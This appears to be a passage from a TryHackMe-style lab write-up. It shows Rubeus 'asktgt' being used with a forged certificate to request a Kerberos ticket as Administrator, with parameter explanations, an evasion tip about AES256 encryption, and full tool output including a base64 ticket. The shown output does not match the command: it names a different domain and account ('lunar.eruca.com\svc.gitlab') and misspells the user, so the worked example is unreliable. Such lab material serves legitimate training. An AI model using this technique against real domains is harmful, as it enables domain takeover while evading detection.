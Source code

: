 Let's break down the parameters:

    /user - This specifies the user that we will impersonate and has to match the UPN for the certificate we generated
    /enctype -This specifies the encryption type for the ticket. Setting this is important for evasion, since the default encryption algorithm is weak, which would result in an overpass-the-hash alert
    /certificate - Path to the certificate we have generated
    /password - The password for our certificate file
    /outfile - The file where our TGT will be output to
    /domain - The FQDN of the domain we are currently attacking
    /dc - The IP of the domain controller which we are requesting the TGT from. Usually it is best to select a DC that has a CA service running

~~~bash
C:\THMTools> .\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:12.31.1.101
          ______        _
         (_____ \      | |
          _____) )_   _| |__  _____ _   _  ___
         |  __  /| | | |  _ \| ___ | | | |/___)
         | |  \ \| |_| | |_) ) ____| |_| |___ |
         |_|   |_|____/|____/|_____)____/(___/
       
         v2.0.0
       
       [*] Action: Ask TGT
       
       [*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=vulncert
       [*] Building AS-REQ (w/ PKINIT preauth) for: 'lunar.eruca.com\svc.gitlab'
       [+] TGT request successful!
       [*] base64(ticket.kirbi):
       
             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
       
         ServiceName              :  krbtgt/za.tryhackme.loc
         ServiceRealm             : ZA.TRYHACKME.LOC
         UserName                 : Adminsitrator
         UserRealm                : ZA.TRYHACKME.LOC
         StartTime                :  2/6/2022 5:54:46 PM
         EndTime                  :  2/7/2022 3:54:46 AM
~~~
